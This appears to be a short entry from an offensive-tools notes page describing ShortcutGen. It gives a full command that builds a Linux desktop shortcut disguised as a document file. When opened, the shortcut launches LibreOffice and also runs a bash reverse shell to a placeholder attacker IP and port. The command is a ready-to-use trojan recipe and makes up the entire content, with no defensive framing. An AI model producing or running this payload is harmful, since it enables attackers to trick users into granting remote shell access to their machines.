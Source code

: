 # Offensive Tools

## [[ShortcutGen|ShortcutGen]]

Generate a payload with one-liner reverse shell.

```
$ shortcutgen -p desktop -n "Document File" -c "libreoffice" -a " --writer \"\$(pwd)/.real_document.odt\"; /bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1" --icon "libreoffice-writer" --workingdirectory "/tmp/" -w "false" -o payload.desktop
```